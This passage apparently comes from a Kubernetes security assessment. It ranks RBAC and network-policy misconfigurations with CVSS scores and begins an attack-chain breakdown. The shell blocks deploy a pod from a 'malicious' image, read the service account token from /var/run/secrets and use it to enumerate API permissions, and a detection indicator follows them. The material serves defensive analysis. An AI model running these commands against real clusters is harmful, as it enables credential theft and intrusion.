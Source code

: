 3. **Missing NetworkPolicy Isolation (68%)**
   - Namespaces lack ingress/egress network controls
   - Allows lateral movement post-compromise
   - **CVSS:** 7.5 (High)

4. **Secret Access Without Least Privilege (52%)**
   - Service accounts with blanket `get`/`list` on all secrets
   - Violates principle of least privilege
   - **CVSS:** 7.8 (High)

5. **Persistent Volume (PV) Manipulation (29%)**
   - Non-admin users with `create`/`delete` on PersistentVolumes
   - Enables data exfiltration/destruction
   - **CVSS:** 7.3 (High)

---

## Attack Chain Breakdown

### Stage 1: Initial Access (T1190 - Exploit Public-Facing Application)

**Entry Vector:** Compromised container image with known CVE

```bash
# Attacker deploys malicious pod
kubectl run attacker-pod \
  --image=attacker/malicious:latest \
  --namespace=default \
  --restart=Never
```

### Stage 2: Discovery (T1613 - Container and Resource Discovery)

**Enumeration Commands:**

```bash
# Inside compromised pod
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc

# Test permissions
curl -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/default/pods \
  --insecure

# Discover RBAC misconfigurations
kubectl auth can-i --list \
  --token=$TOKEN \
  --server=$APISERVER
```

**Detection Indicator:** Spike in Kubernetes API calls from pod with unusual `User-Agent` strings
